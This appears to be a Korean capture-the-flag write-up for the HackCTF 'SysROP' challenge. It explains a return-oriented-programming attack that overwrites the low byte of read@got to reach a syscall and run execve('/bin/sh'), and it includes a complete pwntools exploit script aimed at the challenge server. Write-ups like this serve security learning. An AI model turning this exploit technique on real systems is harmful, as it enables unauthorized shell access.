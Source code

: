```yaml
---
title: "[HackCTF]SysROP"
date: 2019-12-29
tags: [HackCTF]
categories: [HackCTF]
---
```


그냥 웬만한 gadget 다 있길래 그냥 릭해서 풀라고 했는데 출력함수가 없었다.. 근데 가젯중에 `0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret` 이런게 존재해서 rax에 syscall 번호를 넣어주고 가젯들 세팅해주면 syscall을 이용할 수 있을거다. read 함수에서 syscall이 있어서 이를 이용하면 될거다.

`read@got`의 하위 1바이트를 0x5e로 overwrite하면 read함수 호출할 때마다 syscall이 호출될거다.

![](https://user-images.githubusercontent.com/32904385/71559865-62dfe700-2aa6-11ea-8af8-3498559254dd.png)

syscall을 이용해 `execve` 를 호출해 `execve('/bin/sh\x00',0,0)` 이런식으로 넣어주면 쉘이 실행될거다.

data영역에 `/bin/sh\x00` 을 넣고 `read@got` 의 하위 1바이트는 overwrite 해서 syscall 호출해 인자를 `execve('/bin/sh\x00',0,0)`  이렇게 만들어주면 된다. execve의 syscall num은 59다.

```python
from pwn import *

e = ELF('./sysrop')
# p = process('./sysrop')
p = remote('ctf.j0n9hyun.xyz',3024)
libc = ELF('./libc.so.6')

data = 0x601030
syscall_gadget = 0x00000000004005ea # pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
pop3ret = 0x00000000004005eb # pop rdx ; pop rdi ; pop rsi ; ret
main = 0x00000000004005F2

payload = 'A'*0x18
payload += p64(pop3ret)
payload += p64(10) # rdx
payload += p64(0) # rdi
payload += p64(data) # rsi
payload += p64(e.plt['read'])
payload += p64(main)

p.sendline(payload)
sleep(0.1)
p.sendline('/bin/sh\x00')
sleep(0.1)

payload2 = 'A'*0x18
payload2 += p64(pop3ret)
payload2 += p64(1)# rdx
payload2 += p64(0) # rdi
payload2 += p64(e.got['read']) # rsi
payload2 += p64(e.plt['read'])

payload2 += p64(syscall_gadget)
payload2 += p64(59) # rax
payload2 += p64(0) # rdx
payload2 += p64(data) # rdi
payload2 += p64(0) # rsi
payload2 += p64(e.plt['read'])

p.sendline(payload2)
sleep(0.1)
p.sendline('\x5e')
sleep(0.1)

p.interactive()
```

